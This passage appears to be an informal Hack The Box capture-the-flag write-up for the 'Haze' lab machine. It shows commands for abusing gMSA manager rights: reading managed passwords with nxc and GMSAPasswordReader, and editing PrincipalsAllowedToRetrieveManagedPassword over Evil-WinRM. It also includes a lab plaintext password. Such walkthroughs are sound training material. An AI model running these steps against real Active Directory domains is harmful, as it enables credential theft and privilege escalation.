 ```bash
*Evil-WinRM* PS C:\Users\mark.adams\Desktop> 
```

### **GMSA_MANAGERS**

lets see we are member of **GMSA_MANAGERS.** We can try to read read GMSA 

```bash
nxc ldap DC01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
```

![alt text](../assets/images/haze14.png)

i think we have to do something more before done.

but we got name of the account we will read GMSA password right? so i will also try with CS.

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/GMSAPasswordReader.exe --AccountName "Haze-IT-Backup$"
```

U can find here https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/GMSAPasswordReader.exe

![alt text](../assets/images/Haze15.png)

Okey lets do more search. I did huge research here and i will show u in show review.

We have only one service account and as the `gMSA manager`, we can query their credentials **only** **only only only** if the following property is set:

```bash
msDS-GroupMSAMembership
```

Meaning only these members have the ability to query the credentials for that account but we are the `gMSA-Managers`, we need to alter the `msDS-GroupMSAMembership` to also include our users SID by changing the `PrincipalsAllowedToRetrieveManagedPassword` attribute

https://learn.microsoft.com/en-us/powershell/module/activedirectory/set-adserviceaccount?view=windowsserver2025-ps

```bash
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Set-ADServiceAccount -Identity "Haze-IT-Backup" -PrincipalsAllowedToRetrieveManagedPassword gMSA_Managers
*Evil-WinRM* PS C:\Users\mark.adams\Documents> 
```
